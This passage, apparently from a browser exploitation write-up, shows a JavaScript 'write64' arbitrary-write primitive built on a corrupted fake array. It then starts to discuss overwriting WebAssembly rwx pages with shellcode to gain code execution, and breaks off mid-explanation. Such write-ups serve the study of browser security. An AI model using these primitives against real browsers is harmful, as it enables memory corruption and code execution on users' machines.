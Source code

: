 ```javascript
}

function write64(addr, val) { // a compressed address
	let new_backing_ptr = (addr - 1n) >> 8n;
	let offset = (addr - 1n) & 0xFFn;
	fake_arr[idx+6n] = itof(new_backing_ptr << 32n);
	for (let i=0n; i<8n; i++) {
		aarw_arr[offset+i] = Number(val & 0xFFn);
		val = val >> 8n;
	}
}
```

### RWX pages...?

One conventional technique to achieve RCE is to abuse `WASMInstances`. Formerly, compiled WebAssembly code was placed in an `rwx` memory region - all we have to do is overwrite this with our shellcode, and we're done. Right?

There's just two problems. First, the address of the WebAssembly code does not reside within the 40-bit address space within which our arbitrary read and write gadgets operate.

Secondly...
